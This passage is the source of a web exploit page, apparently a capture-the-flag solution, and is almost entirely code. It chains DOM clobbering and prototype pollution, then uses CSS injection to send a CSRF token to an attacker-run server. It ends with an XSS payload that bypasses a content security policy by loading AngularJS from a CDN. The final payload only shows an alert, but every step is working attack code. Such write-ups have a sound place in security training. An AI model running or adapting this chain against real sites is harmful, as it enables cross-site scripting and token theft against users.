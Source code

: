 ``` html
      // Step2. DOM clobbering `document.domain`
      let payload = '"><img name=domain>'
      win = window.open(baseUrl + '/login.php?name=' + encodeURIComponent(payload), 'newWindow')

      waitForWindowLoaded()
    }

    function waitForWindowLoaded() {
      try {
        // if we can access win.origin, it means that the location haven't changed
        win.origin
        setTimeout(() => waitForWindowLoaded(win), 200)
      } catch(err) {
        // window loaded
        // Step3. update theme to do prototype pollution
        themeForm.action = baseUrl + '/theme.php'
        themeForm.submit()
        setTimeout(getCsrfToken, 1000)
      }
    }

    function getCsrfToken() {
      // Step4: Get CSRF token via CSS injection
      const id = Math.random()
      fetch(cssInjectionServerUrl + '/result?id='+id)
        .then(res => res.text())
        .then(res => {
          doXSS(res)
        })

      const cssInjectionPayload = `Please wait for a few seconds
        <style>
          @import url('${cssInjectionServerUrl}/start?id=${id}&len=32')
        </style>`
      win.location = baseUrl + '/app.php#msg=' + encodeURIComponent(cssInjectionPayload)
    }

    function doXSS(csrfToken) {
      // Step5: Nested Parser XSS + CSP bypass via AngularJS
      let xssPayload = `https://www.youtube.com/embed/srcdoc=<script/src="https://cdnjs.cloudflare.com/ajax/libs/mootools/1.6.0/mootools-core.min.js"><\/script><script/src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js"><\/script><div/ng-app/ng-csp>{{[].empty.call().alert([].empty.call().document.domain)}}</div>.png
`
      document.querySelector('#previewForm input[name=desc]').setAttribute('value', xssPayload)
      document.querySelector('#previewForm input[name=csrf-token]').setAttribute('value', csrfToken)
      previewForm.action = baseUrl + '/preview.php'
      previewForm.submit()
    }
  </script>

</body>
</html>
```

